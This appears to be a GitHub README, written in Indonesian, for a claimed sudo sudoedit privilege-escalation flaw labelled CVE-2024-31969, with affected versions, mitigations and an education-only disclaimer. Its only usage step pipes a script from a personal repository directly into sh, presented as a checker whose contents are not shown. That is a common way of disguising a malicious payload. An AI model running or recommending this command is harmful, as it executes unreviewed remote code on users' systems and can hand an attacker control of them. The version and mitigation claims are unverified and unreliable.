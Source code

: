 # 📌 CVE-2024-31969

**CVE-2024-31969** adalah kerentanan **local privilege escalation** pada `sudo` ketika menggunakan perintah `sudoedit`.

Kerentanan ini diperkenalkan sejak **sudo 1.9.0** karena cara `sudoedit` memvalidasi environment variable pengguna dan kepemilikan file yang kurang tepat.

---

## 📖 Deskripsi

> A flaw introduced in **sudo 1.9.0** in how `sudoedit` validated users' environment variables and file ownership.

Kerentanan ini memungkinkan user lokal dengan akses `sudoedit` untuk memodifikasi file arbitrary sebagai root melalui manipulasi environment variable seperti `SUDO_EDITOR`, atau dengan memanfaatkan symlink.

---

## 📊 Versi Sudo yang Terdampak:

| Versi Sudo  | Status |
|:------------|:-----------|
| **1.9.0 → 1.9.15p4** | 🔥 Rentan |
| **1.9.15p5 ke atas** | ✅ Aman |
| **1.8.x (termasuk 1.8.23)** | ❌ Tidak terdampak |

## 📦 Cara Instalasi & Penggunaan

Jalankan perintah berikut:

```bash
curl -L https://raw.githubusercontent.com/kingfakee7/CVE-2024-31969/main/cve-2024-31969-check.sh | sh
```



---

## 🛠️ Solusi / Mitigasi

- Update `sudo` ke versi **1.9.15p5** atau yang lebih baru.
- Batasi rule `sudoers` yang memperbolehkan `sudoedit` untuk user non-root.
- Gunakan konfigurasi `env_keep` atau `env_reset` yang aman dalam file `/etc/sudoers`.

---

## 📚 Referensi

- [CVE-2024-31969 di NVD](https://nvd.nist.gov/vuln/detail/CVE-2024-31969)

---

## ⚠️ Disclaimer

Repository ini dibuat untuk tujuan **edukasi** dan **dokumentasi keamanan sistem**.  
Dilarang keras menggunakan informasi ini untuk aktivitas ilegal atau tanpa izin tertulis dari pemilik sistem.  
Segala bentuk penyalahgunaan sepenuhnya di luar tanggung jawab pembuat.
